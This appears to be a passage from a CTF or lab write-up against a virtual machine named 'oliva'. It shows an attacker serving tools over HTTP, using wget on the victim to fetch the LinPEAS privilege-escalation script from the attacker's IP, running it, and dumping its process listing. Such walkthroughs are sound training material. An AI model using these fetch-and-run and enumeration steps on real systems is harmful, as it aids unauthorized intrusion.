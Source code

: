 `python3 -m http.server -d /home/kali/Desktop/tools`:
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ... ←
```

![Victim: oliva](https://img.shields.io/badge/Victim-oliva-64b5f6?logo=linux&logoColor=white)

`wget http://192.168.56.118/linpeas.sh -P /tmp`:
```
--2024-09-24 17:35:45--  http://192.168.56.118/linpeas.sh
Conectando con 192.168.56.118:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 860337 (840K) [text/x-sh]
Grabando a: «/tmp/linpeas.sh»

linpeas.sh                                      100%[====================================================================================================>] 840,17K  --.-KB/s    en 0,04s   

2024-09-24 17:35:45 (20,5 MB/s) - «/tmp/linpeas.sh» guardado [860337/860337] ←
```

`chmod +x /tmp/linpeas.sh`
`/tmp/linpeas.sh > /tmp/linpeas_output.txt`:

`cat -n /tmp/linpeas_output.txt`:
```
[...]

   201                  ╔════════════════════════════════════════════════╗
   202  ════════════════╣ Processes, Crons, Timers, Services and Sockets ╠════════════════                                                                                                   
   203                  ╚════════════════════════════════════════════════╝                                                                                                                   
   204  ╔══════════╣ Cleaned processes
   205  ╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes                                                          
   206  root           1  0.0  1.2 167508 12036 ?        Ss   15:43   0:01 /sbin/init                                                                                                        
   207  root         204  0.0  1.5  49348 15428 ?        Ss   15:43   0:00 /lib/systemd/systemd-journald
   208  root         231  0.0  0.6  25564  5960 ?        Ss   15:43   0:00 /lib/systemd/systemd-udevd
   209  systemd+     286  0.0  0.6  90040  6664 ?        Ssl  15:43   0:00 /lib/systemd/systemd-timesyncd
   210    └─(Caps) 0x0000000002000000=cap_sys_time
   211  root         326  0.0  0.3   5868  3604 ?        Ss   15:43   0:00 dhclient -4 -v -i -pf /run/dhclient.enp0s3.pid -lf /var/lib/dhcp/dhclient.enp0s3.leases -I -df /var/lib/dhcp/dhclient6.enp0s3.leases enp0s3
   212  root         349  0.0  0.2   6608  2704 ?        Ss   15:43   0:00 /usr/sbin/cron -f
   213  message+     353  0.0  0.4   9116  4916 ?        Ss   15:43   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
   214    └─(Caps) 0x0000000020000000=cap_audit_write
   215  root         358  0.0  0.8  25348  7952 ?        Ss   15:43   0:00 /lib/systemd/systemd-logind
   216  root         389  0.0  2.2 204504 22068 ?        Ss   15:43   0:01 php-fpm: master process (/etc/php/8.2/fpm/php-fpm.conf)
   217  www-data     502  0.0  1.2 204992 12764 ?        S    15:43   0:00  _ php-fpm: pool www
   218  www-data     503  0.0  1.1 204992 11020 ?        S    15:43   0:00  _ php-fpm: pool www
   219  root         415  0.0  0.1   5872  1028 tty1     Ss+  15:43   0:00 /sbin/agetty -o -p -- u --noclear - linux
   220  root         445  0.0  0.1  10344  1012 ?        Ss   15:43   0:00 nginx: master process /usr/sbin/nginx -g daemon[0m on; master_process on;
   221  www-data     449  4.5  0.5  12292  4996 ?        S    15:43   5:07  _ nginx: worker process
   222  oliva        716  0.0  0.6  18044  6868 ?        S    16:20   0:00      _ sshd: oliva@pts/0
   223  oliva        717  0.0  0.4   7968  4816 pts/0    Ss   16:20   0:00          _ -bash
```